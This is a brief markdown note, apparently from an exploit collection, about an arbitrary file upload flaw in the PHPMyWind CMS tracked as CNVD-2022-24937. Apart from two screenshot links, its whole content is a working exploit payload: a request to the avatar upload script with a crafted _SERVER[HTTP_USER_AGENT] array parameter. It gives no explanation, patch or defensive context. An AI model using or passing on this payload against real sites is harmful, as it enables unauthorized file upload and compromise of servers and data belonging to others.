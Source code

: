 # PHPMyWind(CNVD_2022_24937) 任意文件上传
![image](https://user-images.githubusercontent.com/53397197/187666967-9d65e970-8b1c-4137-bfe2-eeae91de7e6e.png)
payload:/data/avatar/upload.php?_SERVER[HTTP_USER_AGENT][]=1
![image](https://user-images.githubusercontent.com/53397197/187666995-75fe9c99-12a5-4e08-a1c9-95af84bb0827.png)


